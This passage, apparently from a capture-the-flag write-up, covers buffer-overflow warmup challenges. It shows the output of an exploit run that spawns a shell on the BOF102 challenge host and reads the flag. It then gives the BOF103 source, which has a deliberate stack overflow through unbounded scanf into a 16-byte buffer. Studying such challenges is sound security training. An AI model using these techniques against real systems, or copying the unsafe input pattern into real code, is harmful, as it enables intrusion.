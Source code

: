 As can be seen, we were able to retrieve the flag using this script:
```
[+] Opening connection to bof102.sstf.site on port 1337: Done
[*] '/home/kali/hackersplaygroundctf/bof102'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
b"Welcome to BOF 102!\nWhat's your name?\nName >"
b' Hello, /bin/sh.\nDo you wanna build a snowman?\n >'
[+] Sending our exploit
[+] Final output
[*] Switching to interactive mode
 $ whoami
/bin/sh: 1: whoami: not found
$ ls
Makefile
bin
bof102
bof102.c
check.py
ex.py
flag
lib
lib64
$ cat flag
SCTF{5t4ck_c4n4ry_4nd_ASLR_4nd_PIE_4re_l3ft_a5_h0m3wOrk}
```

### BOF103
This was the third warmup challenge. The source code was as follows:
```
#include <stdio.h>
#include <stdlib.h>

unsigned long long key;

void useme(unsigned long long a, unsigned long long b)
{
        key = a * b;
}

void bofme() {
        char name[16];

        puts("What's your name?");
        printf("Name > ");
        fflush(stdout);
        scanf("%s", name);
        printf("Bye, %s.\n", name);
}

int main() {
        system("echo 'Welcome to BOF 103!'");
        bofme();
        return 0;
}
   
```
